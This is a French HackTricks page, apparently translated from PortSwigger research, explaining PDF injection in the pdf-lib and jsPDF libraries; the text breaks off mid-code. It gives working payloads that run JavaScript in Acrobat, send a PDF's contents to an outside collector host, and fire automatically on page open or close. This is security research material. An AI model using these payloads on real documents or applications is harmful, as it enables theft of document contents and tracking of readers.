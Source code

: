 <details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


**Si vos données sont reflétées à l'intérieur d'un fichier PDF, vous pouvez essayer d'injecter des données PDF pour exécuter du JavaScript ou voler le contenu du PDF.**

Les informations suivantes ont été prises de [**https://portswigger.net/research/portable-data-exfiltration**](https://portswigger.net/research/portable-data-exfiltration)

## PDF-Lib

Cette fois, j'utilisais [PDFLib](https://pdf-lib.js.org). J'ai pris du temps pour utiliser la bibliothèque afin de créer une annotation et voir si je pouvais injecter une parenthèse fermante dans l'URI de l'annotation - et ça a marché ! Le code vulnérable exemple que j'ai utilisé pour générer le code d'annotation était :

`...`  \
`A: {`\
`Type: 'Action',`\
`S: 'URI',`\
``URI: PDFString.of(`injection)`),``\
`}`\
`})`\
`...`

[Code complet :](https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/pdf-lib/first-injection/test.js)

Comment savais-je que l'injection avait réussi ? Le PDF se rendrait correctement à moins que j'injecte une parenthèse fermante. Cela prouvait que la parenthèse fermante sortait de la chaîne et causait un code PDF invalide. Casser le PDF était bien, mais je devais m'assurer que je pouvais exécuter du JavaScript bien sûr. J'ai regardé le code PDF rendu et j'ai remarqué que la sortie était encodée en utilisant le filtre FlateDecode. J'ai écrit un petit script pour dégonfler le bloc et la sortie de la section d'annotation ressemblait à ceci :`<<`\
`/Type /Annot`\
`/Subtype /Link`\
`/Rect [ 50 746.89 320 711.89 ]`\
`/Border [ 0 0 2 ]`\
`/C [ 0 0 1 ]`\
`/A <<`\
`/Type /Action`\
`/S /URI`\
`/URI (injection))`\
`>>`\
`>>`

Comme vous pouvez clairement le voir, la chaîne d'injection ferme la limite du texte avec une parenthèse fermante, ce qui laisse une parenthèse fermante existante qui provoque le rendu incorrect du PDF :

![Capture d'écran montrant une boîte de dialogue d'erreur lors du chargement du PDF](https://portswigger.net/cms/images/34/f4/3ed2-article-screenshot-showing-damaged-pdf.png)

Génial, donc je pouvais casser le rendu du PDF, et maintenant ? Je devais trouver une injection qui appelait du JavaScript - l'alert(1) de l'injection PDF.

Tout comme les vecteurs XSS dépendent de l'analyse du navigateur, l'exploitabilité de l'injection PDF peut dépendre du moteur de rendu PDF. J'ai décidé de commencer par cibler Acrobat car je pensais que les vecteurs étaient moins susceptibles de fonctionner dans Chrome. Deux choses que j'ai remarquées : 1) Vous pouviez injecter des actions d'annotation supplémentaires et 2) si vous réparez la parenthèse fermante existante, alors le PDF se rendrait. Après quelques expérimentations, j'ai trouvé un joli payload qui injectait une action d'annotation supplémentaire, exécutait du JavaScript et réparait la parenthèse fermante :`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action>>/>>(`

D'abord je sors de la parenthèse, puis je sors du dictionnaire en utilisant >> avant de commencer un nouveau dictionnaire d'annotation. Le /S/JavaScript rend l'annotation basée sur JavaScript et le /JS est où le JavaScript est stocké. À l'intérieur des parenthèses se trouve notre JavaScript réel. Notez que vous n'avez pas besoin d'échapper les parenthèses si elles sont équilibrées. Enfin, j'ajoute le type d'annotation, termine le dictionnaire et répare la parenthèse fermante. C'était tellement cool ; je pouvais créer une injection qui exécutait du JavaScript mais alors quoi, n'est-ce pas ? Vous pouvez exécuter du JavaScript mais vous n'avez pas accès au DOM, donc vous ne pouvez pas lire les cookies. Puis James est apparu et a suggéré de voler le contenu du PDF à partir de l'injection. J'ai commencé à chercher des moyens d'obtenir le contenu d'un PDF. Dans Acrobat, j'ai découvert que vous pouvez utiliser du JavaScript pour soumettre des formulaires sans aucune interaction utilisateur ! En regardant les spécifications de l'API JavaScript, il était assez simple de modifier l'injection de base et d'ajouter du JavaScript qui enverrait l'intégralité du contenu du code PDF à un serveur externe dans une requête POST :`/blah)>>/A<</S/JavaScript/JS(app.alert(1);`\
`this.submitForm({`\
`cURL: 'https://your-id.burpcollaborator.net',cSubmitAs: 'PDF'}))`\
`/Type/Action>>/>>(`

L'alerte n'est pas nécessaire ; je l'ai juste ajoutée pour prouver que l'injection exécutait du JavaScript.

Ensuite, juste pour le plaisir, j'ai regardé comment voler le contenu du PDF sans utiliser de JavaScript. À partir de la spécification PDF, j'ai découvert que vous pouvez utiliser une action appelée SubmitForm. Je l'ai utilisée dans le passé lorsque j'ai construit un PDF pour un contrôle de scan dans Burp Suite. Cela fait exactement ce que le nom implique. Il a également une entrée Flags dans le dictionnaire pour contrôler ce qui est soumis. La clé du dictionnaire Flags accepte une seule valeur entière, mais chaque paramètre individuel est contrôlé par un bit binaire. Une bonne façon de travailler avec ces paramètres est d'utiliser les nouveaux littéraux binaires dans ES6. Le littéral binaire doit être long de 14 bits car il y a 14 drapeaux au total. Dans l'exemple suivant, tous les paramètres sont désactivés :`0b00000000000000`

Pour définir un drapeau, vous devez d'abord rechercher sa position de bit (tableau 237 de la [spécification PDF](https://www.adobe.com/content/dam/acom/en/devnet/pdf/pdfs/PDF32000\_2008.pdf)). Dans ce cas, nous voulons définir le drapeau SubmitPDF. Comme cela est contrôlé par le 9ème bit, il suffit de compter 9 bits à partir de la droite :`0b00000100000000`

Si vous évaluez cela avec JavaScript, cela donne la valeur décimale 256. En d'autres termes, définir l'entrée Flags à 256 activera le drapeau SubmitPDF, ce qui provoquera l'envoi du contenu du PDF lors de la soumission du formulaire. Tout ce que nous avons à faire est d'utiliser l'injection de base que nous avons créée plus tôt et de la modifier pour appeler l'action SubmitForm au lieu de JavaScript :`/blah)>>/A<</S/SubmitForm/Flags 256/F(`\
`https://your-id.burpcollaborator.net)`\
`/Type/Action>>/>>(`

## sPDF

Ensuite, j'ai appliqué ma méthodologie à une autre bibliothèque PDF - [jsPDF](https://parall.ax/products/jspdf) - et j'ai découvert qu'elle était également vulnérable. Exploiter cette bibliothèque était assez amusant car ils ont une API qui peut s'exécuter dans le navigateur et vous permet de générer le PDF en temps réel au fur et à mesure que vous tapez. J'ai remarqué que, comme la bibliothèque PDP-Lib, ils avaient oublié d'échapper les parenthèses à l'intérieur des URL d'annotation. Ici, la propriété url était vulnérable :`doc.createAnnotation({bounds:`\
`{x:0,y:10,w:200,h:200},`\
``type:'link',url:`/input`});``\
`//vulnérable`

J'ai donc généré un PDF en utilisant leur API et injecté du code PDF dans la propriété url :

`var doc = new jsPDF();`\
`doc.text(20, 20, 'Hello world!');`\
`doc.addPage('a6','l');`\
`doc.createAnnotation({bounds:`\
`` {x:0,y:10,w:200,h:200},type:'link',url:` ``\
`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action/F 0/(`\
`` `}); ``

J'ai réduit le vecteur en supprimant les entrées de type du dictionnaire et l'entrée F inutile. J'ai ensuite laissé une parenthèse suspendue qui serait fermée par celle existante. Réduire la taille de l'injection est important car l'application web dans laquelle vous injectez pourrait ne permettre qu'une quantité limitée de caractères.`/blah)>>/A<</S/JavaScript/JS(app.alert(1)`

J'ai ensuite découvert qu'il était possible de réduire encore plus le vecteur ! Acrobat permettrait une entrée URI et une entrée JavaScript dans une seule action d'annotation et exécuterait heureusement le JavaScript :`/)/S/JavaScript/JS(app.alert(1)`

Des recherches supplémentaires ont révélé que vous pouvez également injecter plusieurs annotations. Cela signifie qu'au lieu de simplement injecter une action, vous pourriez sortir de l'annotation et définir vos propres coordonnées rect pour choisir quelle section du document serait cliquable. En utilisant cette technique, j'ai pu rendre l'ensemble du document cliquable. `/) >> >>`\
`<</Type /Annot /Subtype /Link /Rect [0.00 813.54 566.93 -298.27] /Border [0 0`\
`0] /A <</S/SubmitForm/Flags 0/F(https://your-id.burpcollaborator.net`

## Exécuter des annotations sans interaction

Jusqu'à présent, les vecteurs que j'ai démontrés nécessitent un clic pour activer l'action de l'annotation. Typiquement, James a posé la question "Pouvons-nous exécuter automatiquement ?". J'ai parcouru la spécification PDF et j'ai remarqué des fonctionnalités intéressantes des annotations :

"Les entrées **PV** et **PI** permettent une distinction entre les pages qui sont ouvertes et les pages qui sont visibles. À tout moment, une seule page est considérée comme ouverte dans l'application de visualisation, tandis que plusieurs pages peuvent être visibles, en fonction de la disposition des pages."

Nous pouvons ajouter l'entrée PV au dictionnaire et l'annotation se déclenchera automatiquement sur Acrobat ! Non seulement cela, mais nous pouvons également exécuter un payload automatiquement lorsque le document PDF est fermé en utilisant l'entrée PC. Un attaquant pourrait vous suivre lorsque vous ouvrez le PDF et le fermez.

Voici comment exécuter automatiquement à partir d'une annotation :`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/)``\
`>> >>`\
``<</Subtype /Screen /Rect [0 0 900 900] /AA <</PV <</S/JavaScript/JS(app.alert(1))>>/(`});``\
`doc.text(20, 20, 'Exécution automatique');`

Lorsque vous fermez le PDF, cette annotation se déclenchera :`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h[...]
